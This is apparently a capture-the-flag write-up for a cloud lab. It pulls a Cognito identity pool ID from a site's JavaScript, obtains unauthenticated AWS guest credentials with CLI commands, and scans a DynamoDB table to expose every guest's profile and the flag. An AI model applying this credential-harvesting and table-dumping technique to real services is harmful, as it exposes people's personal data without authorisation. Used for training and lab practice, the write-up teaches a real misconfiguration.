



# Day 3 - Complimentary

|Category|Difficulty|
|:------:|:--------:|
| Cloud  |   Easy   |

**Skills learned:**
* Navigating and accessing cloud resources via AWS CLI

## Concierge Briefing
Lambo installed the Byte Lotus Wellness app the day she arrived — it was free, it had great reviews (written by the app, but she didn't check), and it got her a tote bag for saying yes to camera, mic, contacts, and location access. No account needed. No login screen. It just… knows things about you the moment you open it.
That's the whole pitch: “complimentary” access, no friction, no sign-up. Something still has to be deciding what you're allowed to see, even without a login — and whatever that something is, it isn't checking very carefully.
Your objective: find out how the app knows anything about you at all, and see what else it's willing to hand over.

**Target: http://complimentary-wellness-app-332173347248.s3-website-us-east-1.amazonaws.com/**

## Today's Itinerary
* Track down the AWS mechanism issuing you credentials behind the scenes
* Use those credentials to dump more than your own record from the app's DynamoDB table
* Retrieve the flag from another guest's data

## Provided Hint


## Initial Steps
Opening the provided link http://complimentary-wellness-app-332173347248.s3-website-us-east-1.amazonaws.com/ brings us to this page:



I pivoted to reading the source code of the site, since we have no other clues at this point. The code included:
```html
<body> 
<span class="pill">Byte Lotus Wellness</span> 
<h1>Your free wellness dashboard</h1> 
<p>No account needed — we set you up as a guest the moment you arrived.</p> <div class="card"> <div id="dashboard">Loading your dashboard&hellip;</div> </div> <script src="https://sdk.amazonaws.com/js/aws-sdk-2.1500.0.min.js"></script> <script src="app.js"></script> </body> </html> 
```

We can also read the contents of the **app.js** script included on the page. That code includes the following:
```js
// Byte Lotus Wellness — guest dashboard
//
// No login screen on purpose: every visitor gets "free" AWS guest
// credentials from our Cognito Identity Pool so we can save wellness
// preferences without the friction of an account.

const IDENTITY_POOL_ID = "us-east-1:836c0949-292d-485b-b532-52d5ca7bb688";
const AWS_REGION = "us-east-1";
const TABLE_NAME = "complimentary-GuestWellnessProfiles";

AWS.config.region = AWS_REGION;
AWS.config.credentials = new AWS.CognitoIdentityCredentials({
  IdentityPoolId: IDENTITY_POOL_ID,
});

function guestId() {
  let id = localStorage.getItem("byteLotusGuestId");
  if (!id) {
    // First visit: hand out a throwaway guest id, same as checking in.
    id = "guest-" + Math.random().toString(36).slice(2, 10);
    localStorage.setItem("byteLotusGuestId", id);
  }
  return id;
}

function renderDashboard(item) {
  const el = document.getElementById("dashboard");
  if (!item) {
    el.textContent = "Welcome! We don't have wellness data for you yet — check back after your first spa visit.";
    return;
  }
  el.textContent = [
    "Name: " + (item.name ? item.name.S : "—"),
    "Loyalty notes: " + (item.notes ? item.notes.S : "—"),
  ].join("\n");
}

AWS.config.credentials.get(function (err) {
  if (err) {
    console.error("Could not fetch guest credentials:", err);
    return;
  }

  const dynamodb = new AWS.DynamoDB({ region: AWS_REGION });
  dynamodb.getItem(
    {
      TableName: TABLE_NAME,
      Key: { guest_id: { S: guestId() } },
    },
    function (err, data) {
      if (err) {
        console.error("Could not load dashboard:", err);
        return;
      }
      renderDashboard(data.Item);
    }
  );
});
```

This code provides us a few clues to use moving forward:
* We know that *AWS Cognito* is being used to provide credentials 
* The Cognito POOL_ID, AWS_REGION & TABLE_NAME
* Our Guest ID is in our `localStorage`, so we can obtain this using web developer tools
* DynamoDB is used, so the TABLE_NAME variable is a DynamoDB table

## AWS CLI Setup
Before continuing, be sure to:
* Install and/or update AWS CLI if needed. You can follow [these instructions](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html).
* You reset any credentials in your current shell session:
```
unset AWS_ACCESS_KEY_ID 
unset AWS_SECRET_ACCESS_KEY 
unset AWS_SESSION_TOKEN 
```

## Finding the Flag
From AWS's [documentation](https://docs.aws.amazon.com/cognito/latest/developerguide/authentication-flow.html), the Identity pool authentication flow works as follows:
```
1. Your application presents a proof of authentication–a JSON web token or a SAML assertion–from an authorized Amazon Cognito user pool or third-party identity provider in a GetID request.

2. Your identity pool returns an identity ID.

3. Your application combines the identity ID with the same proof of authentication in a GetCredentialsForIdentity request.

4. Your identity pool returns AWS credentials.

5. Your application signs AWS API requests with the temporary credentials.
```

Using the [AWS CLI reference](https://docs.aws.amazon.com/cli/latest/reference/cognito-identity/#cli-aws-cognito-identity) as a guide, we start by calling `aws cognito-identity get-id` to retrieve a unique Identity ID from the identity pool ID we discovered earlier:
```
aws cognito-identity get-id \
  --identity-pool-id "us-east-1:836c0949-292d-485b-b532-52d5ca7bb688" \
  --region us-east-1
```

The output provides us with an **IdentityId** that we need for the next call.
```
{
    "IdentityId": "us-east-1:4d571309-b0fa-c2fb-3e0d-b44b2290a3a6"
}
```

 Then we can use `aws cognito-identity get-credentials-for-identity` to use our Identity ID to obtain temporary credentials:
```
aws cognito-identity get-credentials-for-identity \
  --identity-id "us-east-1:4d571309-b0fa-c2fb-3e0d-b44b2290a3a6" \
  --region us-east-1
```

This call provides us a full set of credentials (AccessKeyId, SecretKey, SessionToken) that will grant us further access. Use EXPORT to configure these new credentials in our terminal session:
```
export AWS_ACCESS_KEY_ID="[ACCESS KEY ID HERE]"
export AWS_SECRET_ACCESS_KEY="[SECRET ACCESS KEY HERE]"
export AWS_SESSION_TOKEN="[SESSION TOKEN HERE]"
```



Confirm your terminal has been successfully configured with these new credentials using `aws sts get-caller-identity`. You should see the new role **assumed-role/complimentary-cognito-unauth-role/CognitoIdentityCredentials**.

Now that we have temporary credentials, we can try accessing the DynamoDB table using the available [dynamodb commands](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/#dynamodb). 

**Scan** the full DynamoDB table to list all items in the **complimentary-GuestWellnessProfiles** table:
```
aws dynamodb scan --table-name complimentary-GuestWellnessProfiles   
```

The output lists all items found in the table, such as:
```
 {
      "password": {
          "S": "escalation_only"
      },
      "location": {
          "S": "25.2048,55.2708"
      },
      "notes": {
          "S": "If you're reading this, the wellness app's guest role can read every profile, not just its own. THM{FLAG IS HERE}"
      },
      "guest_id": {
          "S": "guest-vip-042"
      },
      "email": {
          "S": "vip042@hackerholidays.thm"
      },
      "phone": {
          "S": "+1-555-0100"
      },
      "name": {
          "S": "Guest VIP-042"
      }
 },
```

## Flag
**THM{fr33_\*\*\*_\*\*\*\*_\*\*\*\*\*}**